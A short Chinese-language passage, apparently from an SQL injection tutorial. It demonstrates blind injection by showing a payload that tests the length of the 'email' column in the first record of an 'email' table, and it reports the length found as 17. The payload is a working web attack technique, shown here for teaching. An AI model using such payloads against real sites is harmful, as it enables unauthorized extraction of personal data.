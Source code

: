 ![](../img/aa701b3ebbbd65f8b27ae00eba0e45a4.png)

## 查询记录

我们这里演示如何查询第一条记录的`email`列。

首先是长度：

```
1 and (select length(email) from email limit 0,1)=?
```

问号处替换为从一开始的数字。我们可以看到，长度为 17。
